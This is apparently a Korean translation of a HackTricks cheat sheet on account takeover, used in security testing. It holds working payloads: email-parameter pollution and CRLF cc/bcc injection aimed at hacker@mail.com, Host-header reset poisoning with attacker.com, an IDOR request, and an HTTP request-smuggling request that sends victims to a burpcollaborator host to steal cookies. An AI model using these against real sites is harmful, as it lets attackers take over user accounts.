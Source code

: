 # 등록 및 탈취 취약점

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 자신의 해킹 기법을 공유하세요.

</details>

## 등록 탈취

### 중복 등록

* 기존 사용자 이름을 사용하여 생성을 시도하세요.
* 이메일을 다양하게 확인하세요:
* 대문자
* \+1@
* 이메일에 점을 추가하세요.
* 이메일 이름에 특수 문자 (%00, %09, %20)를 추가하세요.
* 이메일 뒤에 검은 문자를 넣으세요: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### 사용자 이름 열거

응용 프로그램 내에서 이미 사용자 이름이 등록되었는지 확인하세요.

### 비밀번호 정책

사용자를 생성할 때 비밀번호 정책을 확인하세요 (약한 비밀번호를 사용할 수 있는지 확인하세요).\
이 경우 자격 증명을 브루트 포스할 수 있습니다.

### SQL 인젝션

[**이 페이지**](sql-injection/#insert-statement)를 확인하여 등록 양식에서 **SQL 인젝션**을 사용하여 계정 탈취 또는 정보 추출을 시도하는 방법을 알아보세요.

### Oauth 탈취

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML 취약점

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### 이메일 변경

등록한 후 이메일을 변경하고 이 변경이 올바르게 검증되는지 또는 임의의 이메일로 변경할 수 있는지 확인하세요.

### 추가 확인 사항

* **일회용 이메일**을 사용할 수 있는지 확인하세요.
* **긴** **비밀번호** (>200)는 **DoS**로 이어집니다.
* 계정 생성에 대한 **속도 제한**을 확인하세요.
* username@**burp\_collab**.net을 사용하고 **callback**을 분석하세요.

## **비밀번호 재설정 탈취**

### Referrer를 통한 비밀번호 재설정 토큰 누출 <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. 이메일 주소로 비밀번호 재설정을 요청하세요.
2. 비밀번호 재설정 링크를 클릭하세요.
3. 비밀번호를 변경하지 마세요.
4. 제3자 웹사이트(예: Facebook, Twitter)를 클릭하세요.
5. Burp Suite 프록시에서 요청을 가로채세요.
6. referer 헤더가 비밀번호 재설정 토큰을 누출하는지 확인하세요.

### 비밀번호 재설정 독살 <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Burp Suite에서 비밀번호 재설정 요청을 가로채세요.
2. 다음 헤더를 Burp Suite에 추가하거나 편집하세요: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. 수정된 헤더로 요청을 전달하세요.\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. _host 헤더_를 기반으로 비밀번호 재설정 URL을 찾으세요. 예: `https://attacker.com/reset-password.php?token=TOKEN`

### 이메일 매개변수를 통한 비밀번호 재설정 <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### API 매개변수에서의 IDOR <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. 공격자는 자신의 계정으로 로그인하고 **비밀번호 변경** 기능으로 이동해야 합니다.
2. Burp Suite를 시작하고 요청을 가로채기(intercept) 모드로 설정합니다.
3. 요청을 repeater 탭으로 보내고 매개변수를 편집합니다: 사용자 ID/이메일\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### 약한 비밀번호 재설정 토큰 <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

비밀번호 재설정 토큰은 매번 무작위로 생성되고 고유해야 합니다.\
토큰이 만료되는지 또는 항상 동일한지 확인하려고 시도하십시오. 경우에 따라 생성 알고리즘이 약하고 추측할 수 있습니다. 다음 변수들이 알고리즘에 사용될 수 있습니다.

* 타임스탬프
* 사용자 ID
* 사용자 이메일
* 이름과 성
* 생년월일
* 암호화
* 숫자만
* 작은 토큰 시퀀스 (문자 \[A-Z,a-z,0-9] 사이)
* 토큰 재사용
* 토큰 만료 날짜

### 비밀번호 재설정 토큰 노출 <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. 특정 이메일(e.g: test@mail.com)을 사용하여 API/UI를 통해 비밀번호 재설정 요청을 트리거합니다.
2. 서버 응답을 검사하고 `resetToken`을 확인합니다.
3. 그런 다음 다음과 같은 URL에서 토큰을 사용합니다: `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### 사용자명 충돌을 통한 비밀번호 재설정 <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. 희생자의 사용자명과 동일한 사용자명을 가진 사용자로 시스템에 등록하되 사용자명 앞 또는 뒤에 공백을 삽입합니다. 예: `"admin "`
2. 악의적인 사용자명으로 비밀번호 재설정을 요청합니다.
3. 이메일로 전송된 토큰을 사용하여 희생자의 비밀번호를 재설정합니다.
4. 새로운 비밀번호로 희생자 계정에 로그인합니다.

CTFd 플랫폼은 이러한 공격에 취약했습니다.\
참조: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### 크로스 사이트 스크립팅을 통한 계정 탈취 <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. 애플리케이션 또는 하위 도메인에서 XSS를 찾습니다. 쿠키가 상위 도메인에 대해 범위(scope)로 설정되어 있는 경우: `*.domain.com`
2. 현재 **세션 쿠키**를 노출시킵니다.
3. 쿠키를 사용하여 사용자로 인증합니다.

### HTTP 요청 스머글링을 통한 계정 탈취 <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. **smuggler**를 사용하여 HTTP 요청 스머글링 유형을 감지합니다 (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. 다음 데이터로 `POST / HTTP/1.1`를 덮어쓸 요청을 작성합니다:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` 희생자를 burpcollab로 리디렉션하여 쿠키를 도용합니다.\
3\. 최종 요청은 다음과 같을 수 있습니다.
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
해커원 보고서에서 이 버그를 악용했습니다.
* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)
* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### CSRF를 통한 계정 탈취 <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. CSRF를 위한 페이로드 생성, 예: "비밀번호 변경을 위한 자동 제출 HTML 폼"
2. 페이로드 전송

### JWT를 통한 계정 탈취 <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token은 사용자 인증에 사용될 수 있습니다.

* 다른 사용자 ID/이메일로 JWT 편집
* 약한 JWT 서명 확인

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## 참고 자료

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

